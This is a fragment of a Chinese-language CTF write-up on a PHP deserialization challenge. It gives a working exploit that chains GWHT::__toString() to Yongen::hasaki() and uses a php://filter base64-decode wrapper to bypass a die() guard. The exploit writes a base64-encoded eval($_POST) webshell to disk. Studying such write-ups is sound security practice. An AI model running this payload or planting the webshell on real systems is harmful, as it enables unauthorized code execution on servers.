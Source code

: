 ```php
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

?>
```

没有发现反序列化接受参数，反序列化`POP链`为

```
GWHT::__toString() -> Yongen::hasaki()
```

构造`payload`绕过死亡`exit`，使用`php伪协议`绕过

```php
<?php

class GWHT{
    public $hero;
}
class Yongen{ //flag.php
    public $file;
    public $text;
}

$a = new GWHT();
$a->hero = new Yongen();
$a->hero->file = "php://filter/write=convert.base64-decode/resource=a.php";
$a->hero->text = '111' . 'PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==';  //添加的111是补全前面的死亡代码，使其凑够为8的倍数，否则base64解码时会破坏我们构造的shell。



echo urlencode(serialize($a));
```

